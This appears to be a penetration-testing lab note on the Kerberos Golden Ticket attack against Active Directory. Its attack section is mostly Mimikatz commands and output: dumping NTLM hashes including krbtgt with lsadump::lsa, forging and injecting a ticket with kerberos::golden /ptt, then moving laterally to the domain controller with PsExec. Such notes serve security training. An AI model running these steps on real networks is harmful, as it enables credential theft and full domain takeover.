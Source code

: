 # Golden Ticket

## Recap

When a user requests a Ticket Granting Ticket (TGT) from the Key Distribution Center (KDC), the KDC encrypts the TGT with a secret only known to the KDC. **The secret is actually the password hash to the user:&#x20;**_<mark style="color:yellow;">**krbtgt.**</mark>_

_**If we get our hands on the****&#x20;**<mark style="color:yellow;">**krbtgt**</mark>**&#x20;****password hash we can create our own self made TGT tickets, know as****&#x20;**<mark style="color:yellow;">**a Golden Tickets.**</mark>_



### Golden Ticket vs Silver Ticket

Silver Tickets aim to forge a TGS ticket to access a specific service, Golden Tickets are a much more powerful attack vector that gives us access to the entire domain.

<mark style="color:red;">**NOTE:**</mark> We must carefully protect stolen _krbtgt_ password hashes because they grant unlimited domain access.&#x20;



## Prerequisites

For a successful attack we need the following:

* Access to Domain Admin account or compromised Domain Controller.



## Attack

## Attempting to laterally move

We will try to laterally move with our current ticket. We are **denied access.**

```powershell
C:\Tools\SysinternalsSuite>PsExec64.exe \\DC1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access DC1:
Access is denied.
```



### Launching Mimikatz

With access to Domain Admin we can extract the password hash of krbtgt

```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
```



### Creating Golden Ticket & Injecting to Memory

Next we can create the Golden Ticket & Inject it into memory

```powershell
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800
```



### Verifying Success

We can try to laterally move now and verify we have successfully completed the attack

```powershell
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\Windows\system32>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::5cd4:aacd:705a:3289%14
   IPv4 Address. . . . . . . . . . . : 192.168.50.70
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

C:\Windows\system32>whoami
```
